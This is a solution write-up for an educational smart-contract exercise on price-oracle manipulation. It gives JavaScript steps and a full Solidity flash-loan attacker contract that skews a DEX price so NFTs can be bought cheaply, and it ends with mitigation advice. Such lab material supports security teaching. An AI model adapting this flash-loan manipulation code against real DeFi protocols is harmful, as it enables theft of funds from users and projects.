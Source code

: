 # Smart Contracts Exercise 06: Fool the Oracle -- Solution

The solved Exercise 06 - Fool the Oracle can be found in this repository.

## Solution to Task 1: Fool the Oracle 01

The solution to Task 1 leverages price manipulation in the SimpleDEX, which is being used as a price oracle by the NFT marketplace. By exploiting the price impact mechanics of AMM, we can change the exchange rate between ETH and USDC to make the NFTs much cheaper in ETH terms.

The key steps in the solution are:

1. First, we approve the DEX to spend our USDC tokens:
```javascript
await usdcToken.connect(player).approve(simpleDEX.target, PLAYER_INITIAL_USDC);
```

2. Then, we swap all our USDC (3000) for ETH, which drastically changes the composition of the liquidity pool. This manipulation causes the price of ETH (in USDC terms) to significantly increase:
```javascript
await simpleDEX.connect(player).usdcToEth(PLAYER_INITIAL_USDC);
```

3. Finally, we purchase all three NFTs at the artificially low ETH prices:
```javascript
for (let i = 1; i <= NFT_COUNT; i++) {
    const ethPrice = await nftMarketplace.getCurrentPriceForNFT(i);
    console.log(`Purchasing NFT #${i} for ${ethers.formatEther(ethPrice)} ETH`);
    await nftMarketplace.connect(player).buyNFT(i, { value: ethPrice });
}
```

This attack exploits the fact that the NFT marketplace blindly trusts the DEX as its price oracle without considering that the price could be manipulated through normal trading activities.

## Solution to Task 2: Fool the Oracle 02

In Task 2, the DEX has significantly more liquidity (100 ETH and 200,000 USDC), making direct price manipulation much more difficult with our limited funds. Instead, we utilize flash loans to borrow a large amount of USDC, manipulate the price, purchase the NFTs, and repay the loan—all in a single atomic transaction.

The solution involves creating a specialized attack contract (FlashLoanNFTAttacker) that implements the flash loan logic and NFT purchasing in its callback function. The key steps are:

1. Deploy the attacker contract with references to all necessary contracts:
```javascript
const FlashLoanNFTAttacker = 
await ethers.getContractFactory("FlashLoanNFTAttacker", player);
const attacker = await FlashLoanNFTAttacker.deploy(
flashLoanProvider.target,
usdcToken.target,
simpleDEX.target,
nftMarketplace.target,
studentNFT.target
);
```

2. Send some ETH to the attacker contract to help cover costs of flashloan:
```javascript
const ethToKeep = ethers.parseEther("1.6");
const ethToSend = PLAYER_INITIAL_ETH - ethToKeep;
await player.sendTransaction({
    to: attacker.target,
    value: ethToSend
});
```

3. Execute the flash loan attack, borrowing 150,000 USDC:
```javascript
const borrowAmount = ethers.parseEther("150000"); // 150,000 USDC
await attacker.executeAttack(borrowAmount, { value: estimatedEthNeeded });
```

Inside the attacker contract (FlashLoanNFTAttacker.sol), the `onFlashLoan` callback:
1. Dumps the borrowed USDC into the DEX to manipulate the price (ETH becomes more expensive)
2. Buys the target NFTs at the manipulated (lower) ETH prices
3. Transfers the NFTs to the player
4. Converts remaining ETH back to USDC
5. Repays the flash loan with interest

```solidity
// Flash loan callback function where the actual attack happens
function onFlashLoan(
    address initiator,
    address token,
    uint256 amount,
    uint256 fee,
    bytes calldata data
) external override returns (bytes32) {

    // Decode the NFT ids to buy
    uint256[] memory nftIds = abi.decode(data, (uint256[]));
    
    // Approve DEX to spend our USDC
    usdcToken.approve(address(dex), amount);
    
    // Dump all USDC to manipulate the price
    dex.usdcToEth(amount);
    
    // Buy all target NFTs at the reduced ETH price and transfer to owner
    for (uint i = 0; i < nftIds.length; i++) {
        uint256 ethPrice = marketplace.getCurrentPriceForNFT(nftIds[i]);
        marketplace.buyNFT{value: ethPrice}(nftIds[i]);
        
        // Transfer the NFT to the owner
        nftContract.transferFrom(address(this), owner, nftIds[i]);
    }
    
    // Convert ETH back to USDC to repay the loan
    uint256 usdcToRepay = amount + fee;
    uint256 usdcBought = dex.ethToUsdc{value: address(this).balance}();
    
    // Check if we have enough USDC to repay
    uint256 currentUsdcBalance = usdcToken.balanceOf(address(this));
    if (currentUsdcBalance < usdcToRepay) {
        revert RepaymentFailed(currentUsdcBalance, usdcToRepay);
    }
    
    // Transfer the tokens to the lender to repay the loan
    usdcToken.transfer(address(lender), usdcToRepay);

    // Transfer any remaining USDC back to the player
    usdcToken.transfer(owner, usdcBought - usdcToRepay);
    
    // Return the required value to indicate successful flash loan execution
    return keccak256("ERC3156FlashBorrower.onFlashLoan");
}
```

## Comment on Mitigation Strategies

Smart contracts relying on price oracles require robust protection against manipulation attacks like those demonstrated in these exercises. Effective mitigation approaches focus on making these attacks economically unfeasible.

Time-Weighted Average Prices offer significant protection by averaging prices over extended periods, greatly increasing the capital required for manipulation. Rather than trusting a single source, projects should aggregate data from multiple independent oracles, taking median values to neutralize outliers.

Implementing volume and liquidity monitoring helps detect suspicious activities. When unusually large trades occur relative to pool size, the system can temporarily pause or flag transactions for review. Similarly, setting reasonable price deviation bounds prevents acceptance of manipulated values that fall outside historical volatility patterns.

Many production DeFi applications now rely on professional oracle networks like [Chainlink](https://chain.link/), which aggregate data from numerous off-chain sources with built-in manipulation safeguards. For systems potentially vulnerable to flash loan attacks, transaction context analysis can identify and block operations initiated within flash loan transactions by examining the call stack.
